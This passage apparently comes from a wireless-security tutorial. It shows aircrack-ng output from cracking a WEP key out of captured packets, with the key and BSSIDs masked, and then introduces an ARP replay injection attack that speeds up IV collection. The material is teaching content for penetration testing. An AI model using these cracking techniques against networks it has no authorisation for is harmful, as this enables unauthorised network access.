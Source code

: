```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo airecrack-ng wep.cap

Reading packets, please wait...
Opening capture-01.cap
Read 24937 packets.

   #  BSSID  Got 24776 out of 20000 IVsStarting PTW attack with 24776 ivs.

   1  XX:XX:XX:XX:XX:XX  <ESSID>                 WEP (24776 IVs)

Choosing first network as target.

Reading packets, please wait...
Opening capture-01.cap
Read 24937 packets.

1 potential targets

Attack will be restarted every 5000 captured ivs.

                  Aircrack-ng 1.7 


    [00:00:00] Tested 6 keys (got 24776 IVs)

   KB    depth   byte(vote)
    0    0/  1   XX(35840) XX(32256) XX(30208) 
    1    0/  5   XX(32000) XX(31232) XX(31232) 
    2    0/  1   XX(34816) XX(31232) XX(30976) 
    3    0/  1   XX(33792) XX(31744) XX(30976) 
    4    0/  1   XX(32768) XX(31488) XX(31488) 

                         KEY FOUND! [ XX:XX:XX:XX:XX ] 
        Decrypted correctly: 100%

```

### Case 2: Accelerating ARP Replay (WEP Active Attack)

In Case 1, we passively captured packets on a busy network to collect enough IVs to eventually crack the WEP key. However, this approach becomes inefficient on a quiet or low-traffic network. To address this, we can trigger the network to generate traffic using an **ARP replay attack**. This method injects ARP requests, which forces the Access Point to respond, thereby increasing the number of encrypted packets (and IVs) we can collect.

This is considered an **active attack** because we are actively injecting packets into the network to provoke responses.

This approach is effective when at least one client is associated with the access point. Without an active client, this method won’t work.
